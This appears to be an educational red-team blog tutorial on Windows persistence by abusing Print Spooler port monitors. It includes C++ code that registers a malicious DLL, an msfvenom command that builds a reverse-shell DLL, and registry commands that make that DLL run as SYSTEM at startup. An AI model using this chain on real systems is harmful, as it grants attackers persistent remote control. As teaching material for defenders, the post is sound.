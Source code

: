 ```yaml
---
title:  "Malware development: persistence - part 8. Port monitors. Simple C++ example."
date:   2022-06-19 10:00:00 +0600
header:
  teaser: "/assets/images/59/2022-06-20_19-35.png"
categories:
  - tutorial
tags:
  - malware
  - windows
  - persistence
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!

![pers](/assets/images/59/2022-06-20_19-35.png){:class="img-responsive"}    

This post is the result of self-researching one of the interesting malware persistence trick: Port monitors.    

### port monitors

Port Monitor refers to the Windows Print Spooler Service or `spoolv.exe` in this post. When adding a printer port monitor, a user (or an attacker) is able to add an arbitrary dll that serves as the *"monitor"*.    

There are essentially two ways to add a port monitor, also known as your malicious DLL: through the Registry for persistence or a custom Windows application (`AddMonitor` function) for immediate dll execution.    

### adding monitor

Using the Win32 API, specifically the `AddMonitor` function of the Print Spooler API:

```cpp
BOOL AddMonitor(
  LPTSTR pName,
  DWORD  Level,
  LPBYTE pMonitors
);
```

it is possible to add an arbitrary monitor DLL immediately while the system is running. Note that you will need local administrator privileges to add the monitor.    

For example, source code of our monitor:    

```cpp
/*
monitor.cpp
windows persistence via port monitors
register the monitor port
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2022/06/19/malware-pers-8.html
*/
#include "windows.h"
#pragma comment(lib, "winspool")

int main(int argc, char* argv[]) {
  MONITOR_INFO_2 mi;
  mi.pName = "Monitor";
  mi.pEnvironment = "Windows x64";
  // mi.pDLLName = "evil.dll";
  mi.pDLLName = "evil2.dll";
  AddMonitor(NULL, 2, (LPBYTE)&mi);
  return 0;
}

```

Compile it:

```bash
x86_64-w64-mingw32-g++ -O2 monitor.cpp -o monitor.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive -lwinspool
```

![pers](/assets/images/59/2022-06-20_08-17.png){:class="img-responsive"}    

Also, create our "evil" DLL:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.56.1 LPORT=4445 -f dll > evil2.dll
```

![pers](/assets/images/59/2022-06-20_19-24.png){:class="img-responsive"}    

So, compiling the code will produce an executable (`monitor.exe` in my case) that will register the malicious DLL (`evil2.dll`) on the system.    

### demo for add "monitor"

Copy files and run:

```powershell
copy Z:\2022-06-19-malware-pers-8\evil2.dll .\
copy Z:\2022-06-19-malware-pers-8\monitor.exe .\
.\monitor.exe
```

![pers](/assets/images/59/2022-06-20_19-28.png){:class="img-responsive"}    

### registry persistence

A list of sub-key port monitors can be found within the `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Print\Monitors` node. Each key should have a `REG_SZ` entry containing a `Drivers` DLL. At system startup, each of these DLLs will be executed as `SYSTEM`.    

First of all, before malicious actions, check sub keys:

```powershell
reg query "HKLM\System\CurrentControlSet\Control\Print\Monitors" /s
```

![pers](/assets/images/59/2022-06-20_15-48.png){:class="img-responsive"}    

Then, add sub key `Meow` and `Driver` value:    

```powershell
reg add "HKLM\System\CurrentControlSet\Control\Print\Monitors\Meow" /v "Driver" /d "evil2.dll" /t REG_SZ
reg query "HKLM\System\CurrentControlSet\Control\Print\Monitors" /s
```

![pers](/assets/images/59/2022-06-20_18-17.png){:class="img-responsive"}    

As you can see, everything is completed correctly. Then restart victim's machine:    

![pers](/assets/images/59/2022-06-20_18-17_1.png){:class="img-responsive"}    

![pers](/assets/images/59/2022-06-20_18-17_2.png){:class="img-responsive"}    

And after a few minutes:    

![pers](/assets/images/59/2022-06-20_19-30.png){:class="img-responsive"}    

![pers](/assets/images/59/2022-06-20_19-31.png){:class="img-responsive"}    

Let's go to check `Network` tab in Process Hacker 2:    

![pers](/assets/images/59/2022-06-20_19-34.png){:class="img-responsive"}    

We can see that the `evil2.dll` is being accessed by the `spoolsv.exe (PID: 4616)`, which eventually spawns a `rundll32` with our payload, that initiates a connection back to the attacker:     

![pers](/assets/images/59/2022-06-20_19-33.png){:class="img-responsive"}    

For cleanup, after end of experiments, run:

```powershell
Remove-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Print\Monitors\Meow" -Name "Driver"
```

![pers](/assets/images/59/2022-06-20_21-22.png){:class="img-responsive"}    

During Defcon 22, Brady Bloxham [demonstrated](https://defcon.org/images/defcon-22/dc-22-presentations/Bloxham/DEFCON-22-Brady-Bloxham-Windows-API-Abuse-UPDATED.pdf) this persistence technique. This method requires Administrator privileges and the DLL must be saved to disk.   
The question remains whether any APTs uses this technique in the wild.

[Windows Print Spooler Service](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-prsod/7262f540-dd18-46a3-b645-8ea9b59753dc)    
[Defcon-22: Brady Bloxham - Getting Windows to Play with itself](https://defcon.org/images/defcon-22/dc-22-presentations/Bloxham/DEFCON-22-Brady-Bloxham-Windows-API-Abuse-UPDATED.pdf)    
[MITRE ATT&CK - Port Monitors persistence technique](https://attack.mitre.org/techniques/T1547/010/)    
[source code on Github](https://github.com/cocomelonc/2022-06-19-malware-pers-8)   

> This is a practical case for educational purposes only.      

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*

